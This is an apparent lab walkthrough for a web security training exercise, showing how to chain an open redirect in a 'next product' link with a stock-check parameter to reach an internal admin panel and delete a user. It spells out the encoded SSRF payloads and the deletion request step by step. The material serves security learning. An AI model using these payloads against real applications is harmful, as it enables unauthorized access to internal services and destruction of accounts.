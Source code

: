 ### Lab: SSRF with filter bypass via open redirection vulnerability

This lab has a stock check feature which fetches data from an internal system.  
To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos.

The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.

_____

Analysis and Exploit:

1. Stock Check functionality at **/product/post**
    - stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
    - stockApi=/product/stock/check?productId=1&storeId=1
2. In product page there is a link _Next product_:
    - GET /product/nextProduct?currentProductId=1&path=/product?productId=2

3. 1st - **[BURP-REPEATER]** stockApi=/product/stock/check%3fproductId%3d1%26storeId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin
  
(stockApi=/product/stock/check?productId=1&storeId=1&path=http://192.168.0.12:8080/admin) returns status code 200 and stock value
WRONG!!! NOT AN OPEN REDIRECT!!

4. 2nd - **[BURP-REPEATER]** GET /product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
    - HTTP/2 302 Found
5. **[BURP-REPEATER]** POST request with payload as value for 'stockApi'
    - stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin

    (stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin)
6. **[BURP-REPEATER]** POST request to delete user
    - stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete?username=carlos
        - Upon success : "User deleted successfully!"
    (/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin/delete?username=carlos)

_____

Script:

1. Delete user _carlos_ | POST **/product/stock** | params: stockApi
    - stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete?username=carlos
    - check if "User deleted successfully!" in response text

    